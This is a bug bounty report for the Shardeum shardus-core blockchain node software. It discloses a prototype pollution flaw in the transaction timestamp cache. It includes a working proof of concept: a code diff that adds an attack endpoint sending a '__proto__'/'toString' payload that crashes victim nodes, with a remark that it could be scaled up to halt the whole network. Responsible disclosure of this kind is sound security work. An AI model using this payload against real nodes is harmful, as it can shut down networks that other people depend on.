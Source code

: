 
# Killing nodes by polluting tx timestamp cache object prototype

Submitted on Aug 10th 2024 at 01:29:47 UTC by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34353

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description

## Description
In the @shardus/core source code repo, node store a cache of transaction timestamp. Other node will ask the cache, if it's a miss the node will create new transaction timestamp cache object derived from payload of the request.
This mean that malicious party can launch a modified node, send the polluted payload to victim node via `get_tx_timestamp` cache ask endpoint. Subsequently killing the victim node.

## Vulnerability
This happen due to the cache holder node will create a transaction timestamp object if the timestamp for given transaction not found in its own cache. The problem lies within the way the cache is created.

```
this.txTimestampCache[signedTsReceipt.cycleCounter][txId] = signedTsReceipt
```
This way of referencing the cache object to assign a value is dangerous, because the referenced element come straight from the request payload. With that in mind consider the following payload
```
{
  cycleMarker: "__proto__",
  cycleCounter: "__proto__",
  txId: "toString"
}
```

This mean that the cache object will be created in the following way
```
this.txTimestampCache["__proto__"]["toString"] = signedTsReceipt
```
Essentially overwriting the prototype of the cache object, and the `toString` method of the cache object. This is problematic because `toString` is polluted to be a literal string which in turns break the code of the victim when stringify operations are done later down the stream.







## Proof of Concept
- Launch a network of legit nodes.
- Launch an attacker node with this patch applied to shardus/core
- Wait for the attacker node to go active

```diff

diff --git a/src/utils/nestedCounters.ts b/src/utils/nestedCounters.ts
index 3ebbb782..5fbe9796 100644
--- a/src/utils/nestedCounters.ts
+++ b/src/utils/nestedCounters.ts
@@ -5,6 +5,11 @@ import Crypto from '../crypto'
 import { isDebugModeMiddleware, isDebugModeMiddlewareLow } from '../network/debugMiddleware'
 import { getNetworkTimeOffset, shardusGetTime } from '../network'
 import { Utils } from '@shardus/types'
+import { InternalRouteEnum } from '../types/enum/InternalRouteEnum'
+import { getTxTimestampReq, serializeGetTxTimestampReq } from '../types/GetTxTimestampReq'
+import { deserializeGetTxTimestampResp, getTxTimestampResp } from '../types/GetTxTimestampResp'
+import * as crypto from "crypto"
+

 type CounterMap = Map<string, CounterNode>
 interface CounterNode {
@@ -32,6 +37,30 @@ class NestedCounters {
   }

   registerEndpoints(): void {
+
+    Context.network.registerExternalGet('launch-attk', async (req, res)=>{
+
+          const victim = req.query.victim as string
+
+          const node = Context.shardus.getNodeByPubKey(victim)
+
+          const cycleMarker = crypto.randomBytes(254).toString()
+
+          const cycleCounter = "__proto__"
+
+          const txId = "toString"
+
+          const payload = {
+            cycleMarker,
+            cycleCounter,
+            txId
+          }
+
+          const data = await Context.p2p.ask(node, "get_tx_timestamp", payload, false)
+
+          res.send(data)
+    })
+
     Context.network.registerExternalGet('counts', isDebugModeMiddlewareLow, (req, res) => {
       profilerInstance.scopedProfileSectionStart('counts')


 ```
 - Send a request to the attacker node with the victim node public key as a query parameter
 - `GET http://localhost:1337/launch-attk?victim=<publickey>`
 - observe the logs, the node exit unCleanly, essentially killing the node.

 ## Impact
 This is pretty straight forward single node attack, the script can be modified to attack the whole network to kill the whole network.
